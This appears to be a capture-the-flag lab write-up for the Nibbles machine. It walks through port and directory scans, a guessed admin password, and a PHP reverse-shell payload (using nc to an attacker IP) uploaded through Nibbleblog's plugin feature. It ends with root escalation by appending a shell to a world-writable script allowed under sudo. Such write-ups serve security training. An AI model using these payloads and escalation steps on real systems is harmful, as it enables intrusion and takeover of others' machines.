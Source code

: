 # Recon

Found open port with ssh(22) and http(80)

```
> nmap -p- 10.10.10.75 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-17 20:31 CET
Nmap scan report for 10.10.10.75
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

Simple request at ip reveals existence of /nibbleblog/ directory.


```
> curl 10.10.10.75
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Web content enumeration scan reveals admin.php file.

```
> gobuster dir -u http://10.129.200.170/nibbleblog/ --wordlist common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.200.170/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/22 20:00:27 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 304]
/.htaccess            (Status: 403) [Size: 309]
/.htpasswd            (Status: 403) [Size: 309]
/README               (Status: 200) [Size: 4628]
/admin                (Status: 301) [Size: 327] [--> http://10.129.200.170/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 331] [--> http://10.129.200.170/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 329] [--> http://10.129.200.170/nibbleblog/plugins/]
/themes               (Status: 301) [Size: 328] [--> http://10.129.200.170/nibbleblog/themes/]
```

# Exploitation 

After accessing admin.php file and some tries, it was possible to guess admin credentials:

login: admin
password: nibbles

![](images/1.jpg)

Server has vulnerable version of nibbles blog (4.0.3).
That means it is possible to upload arbitrary .php file on it, and execute it's contents.
This can be done via plugins menu:

![](images/2.jpg)

We create simple reverse-shell payload:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 9443 >/tmp/f"); ?>

```

Then, we upload it via plugin system, clicking browse, selecting file with payload,
and choosing "Save changes". 

After that, we listen on 9943 port on attack machine, and activate reverse shell
with curl request.

```sh
nc -lvnp 9443
curl http://10.129.200.170/nibbleblog/content/private/plugins/my_image/image.php

```

After that, we upgrade our shell with python script on victim machine:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

# Privilege Escalation 

In user home directory, there are files:

```
> ls
personal.zip  user.txt

```

After unzipping contents of personal.zip, following folder structure appears:

```
> tree personal

personal
`-- stuff
    `-- monitor.sh

1 directory, 1 file

```

File monitor.sh is writeable by everyone:

```
$ ls -al monitor.sh

-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

```

And can be run with sudo without password:

```
$ sudo -l

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

It can be exploited by adding /bin/bash at the end of the file, and executing it
with sudo:

```
$ echo "/bin/bash" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh

```

We gain access to root shell.

```
# cat /root/root.txt
de5e5d6619862a8aa5b9b212314e0cdd
```
